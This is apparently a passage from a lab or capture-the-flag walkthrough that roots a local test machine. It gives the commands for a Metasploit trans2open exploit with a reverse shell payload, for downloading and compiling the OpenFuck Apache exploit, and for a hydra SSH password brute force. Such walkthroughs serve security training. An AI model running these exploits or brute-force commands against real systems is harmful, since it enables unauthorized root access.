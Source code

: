 </aside>

6) The Next Target is ******************SSH port.******************

<aside>
💡 ssh 192.168.1.109 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc

</aside>

Doesnt get us a lot of useful results since it needs a password

# ***EXPLOITATION***

## 1) Using Metasploit

```jsx
> msfconsole
> search trans2open
> use 1 (linux version)
> set RHOSTS 192.168.1.109
> exploit
// it starts dying maybe staged payloard isnt a good option
> set payload linux/x86/shell_reverse_tcp
> exploit
// in a small while, it shows the root terminal
>whoami
root
```

## 2) Manual Exploitation

```jsx
//Download Exploit
>git clone https://github.com/heltonWernik/OpenFuck.git
// install req
>apt-get install libssl-dev
//get into the repo and compile
>cd OpenFuck
> gcc -o OpenFuck OpenFuck.c -lcrypto
//From Enumeration phase, we know that the server being run is Apache 1.3.20
// so we use that hex 0x6b
> ./OpenFuck 0x6b 192.168.1.109 -c 40

```

And thats it, we have root.

## 3) Bruteforcing SSH

```jsx
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.109:22 -t 4 -V
```
